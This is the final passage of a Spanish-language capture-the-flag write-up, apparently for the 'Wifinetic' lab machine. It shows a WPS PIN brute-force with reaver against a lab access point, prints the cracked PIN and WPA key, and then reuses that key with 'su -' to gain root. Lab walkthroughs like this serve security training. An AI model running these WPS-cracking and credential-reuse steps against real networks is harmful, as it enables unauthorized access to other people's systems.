 ¡Y bingo! La herramienta **reaver**, de la que ya habíamos oido antes que se usaba para testear la seguridad de la red, tiene permisos a nivel de red, ahora intentemos hacer el ataque de fuerza bruta a WPS, para esto basta con ver con '**--help**' las instrucciones de uso de la herramienta, en el ejemplo se ve que necesitamos una interfaz en modo **monitor** (ya contamos con una) y el **BSSID** de la interfaz de red a monitorear (La tenemos de los comandos de enumeración de antes), ahora pongámoslo a prueba.

<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">reaver -i mon0 -b 02:00:00:00:00:00 -vv</code>
</pre>

Que en su ataque de fuerza bruta eventualmente nos dará el pin WPS junto con la clave:

```text
[+] Trying pin "12345670"
[+] Sending authentication request
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 12 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```


Ya con la clave (WPA PSK) pondremos a prueba si otra vez se reutilizan credenciales (**Password Spraying**), primero intentaremos con el usuario root.
<pre 
  class="command-line" 
  data-prompt="netadmin@wifinetic:~$" 
  data-output="4"
><code class="language-bash">su -</code>
</pre>

Ingresamos la clave y **PWNED!!!!** Hemos acabado la máquina.


-----------
